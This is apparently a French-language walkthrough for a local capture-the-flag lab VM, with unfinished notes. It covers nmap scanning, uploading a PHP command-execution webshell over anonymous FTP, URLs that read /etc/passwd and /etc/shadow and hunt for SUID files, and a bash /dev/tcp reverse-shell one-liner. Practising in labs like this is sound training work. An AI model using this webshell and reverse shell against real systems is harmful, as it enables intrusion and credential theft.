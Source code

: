 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put nc.php```

# éxécuter ceci dans un terminal
- nc -lvnp 12000
    - -l : Active le mode "listener".
    - -v : Mode verbeux pour voir les connexions établies.
    - -n : Ignore les DNS pour accélérer la connexion.
    - -p 12000 : Spécifie le port d'écoute.

# faire passer www-data à un utilisateur privilégié

# mettre ceci dans le navigateur:
- http://192.168.1.26/files/simple_shell.php?cmd=cat%20/etc/crontab
- http://192.168.1.26/files/simple_shell.php?cmd=find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null
- http://ADRESSE_IP_VM/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# localhost 
- nc -lvp 4444
- bash -c 'bash -i >& /dev/tcp/<TON_IP>/4444 0>&1'

# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------

# link for kali
- https://www.youtube.com/watch?v=trPm2DB8678
- https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA